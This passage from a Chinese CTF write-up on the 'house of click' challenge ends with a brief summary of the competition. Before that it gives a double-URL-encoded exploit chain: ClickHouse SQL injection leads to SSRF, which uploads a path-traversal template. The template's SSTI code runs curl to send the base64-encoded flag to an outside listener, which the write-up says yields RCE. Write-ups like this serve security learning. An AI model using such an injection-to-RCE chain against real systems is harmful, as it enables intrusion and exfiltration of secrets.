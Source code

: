 ```plain
进行 URL 编码后：
```

```plain
id=1 AND (SELECT * FROM url('http://default:default@db:8123/?query=%2549%254e%2553%2545%2552%2554%2520%2549%254e%2554%254f%2520%2546%2555%254e%2543%2554%2549%254f%254e%2520%2575%2572%256c%2528%2527%2568%2574%2574%2570%253a%252f%252f%2562%2561%2563%256b%2565%256e%2564%253a%2538%2530%2530%2531%252f%2561%2570%2569%252f%2575%2570%256c%256f%2561%2564%2527%252c%2520%2527%2554%2561%2562%2553%2565%2570%2561%2572%2561%2574%2565%2564%2552%2561%2577%2527%252c%2520%2527%2578%2520%2553%2574%2572%2569%256e%2567%2527%252c%2520%2568%2565%2561%2564%2565%2572%2573%2528%2527%2543%256f%256e%2574%2565%256e%2574%252d%2554%2579%2570%2565%2527%253d%2527%256d%2575%256c%2574%2569%2570%2561%2572%2574%252f%2566%256f%2572%256d%252d%2564%2561%2574%2561%253b%2520%2562%256f%2575%256e%2564%2561%2572%2579%253d%252d%252d%252d%252d%2574%2565%2573%2574%2527%252c%2520%2527%2558%252d%2541%2563%2563%2565%2573%2573%252d%2554%256f%256b%2565%256e%2527%253d%2527%2530%2536%2561%2531%2538%2531%2562%2535%2534%2537%2534%2564%2530%2532%2530%2563%2532%2532%2533%2537%2563%2565%2561%2534%2533%2533%2535%2565%2565%2536%2566%2564%2527%2529%2529%2520%2556%2541%254c%2555%2545%2553%2520%2528%2527%252d%252d%252d%252d%252d%252d%2574%2565%2573%2574%255c%2572%255c%256e%2543%256f%256e%2574%2565%256e%2574%252d%2544%2569%2573%2570%256f%2573%2569%2574%2569%256f%256e%253a%2520%2566%256f%2572%256d%252d%2564%2561%2574%2561%253b%2520%256e%2561%256d%2565%253d%2522%256d%2579%2566%2569%256c%2565%2522%253b%2520%2566%2569%256c%2565%256e%2561%256d%2565%253d%2522%252e%252e%252f%2574%2565%256d%2570%256c%2561%2574%2565%2573%252f%2574%2565%2573%2574%252e%2568%2574%256d%256c%2522%255c%2572%255c%256e%2543%256f%256e%2574%2565%256e%2574%252d%2554%2579%2570%2565%253a%2520%2574%2565%2578%2574%252f%2570%256c%2561%2569%256e%255c%2572%255c%256e%255c%2572%255c%256e%2524%2563%256f%2564%2565%253a%255c%2572%255c%256e%2520%2520%2520%2520%255f%255f%2569%256d%2570%256f%2572%2574%255f%255f%2528%255c%2527%256f%2573%255c%2527%2529%252e%2573%2579%2573%2574%2565%256d%2528%255c%2527%2563%2575%2572%256c%2520%2568%2574%2574%2570%253a%252f%252f%2568%256f%2573%2574%252e%2564%256f%2563%256b%2565%2572%252e%2569%256e%2574%2565%2572%256e%2561%256c%253a%2535%2535%2535%2535%252f%253f%2566%256c%2561%2567%253d%2560%252f%2572%2565%2561%2564%2566%256c%2561%2567%2520%257c%2520%2562%2561%2573%2565%2536%2534%2560%255c%2527%2529%255c%2572%255c%256e%252d%252d%252d%252d%252d%252d%2574%2565%2573%2574%252d%252d%2527%2529%253b', 'TabSeparatedRaw', 'x String'))
```

7、最终直接访问上传后的模板`test.html`即可 RCE

思路：通过`路径绕过nginx反向代理`，再通过`ClickHouse SQL`注入实现 SSRF，最终传入 SSTI 执行

# 总结

`ez_wordpress`与`house of click`质量很高，`house of click`有的云里雾里的，因为没接触过`house of click`数据库，其实还有一题 ActiveMQ 的反序列化题目，实在没有研究过 CVE-2023-46604 源码，就不复现了。
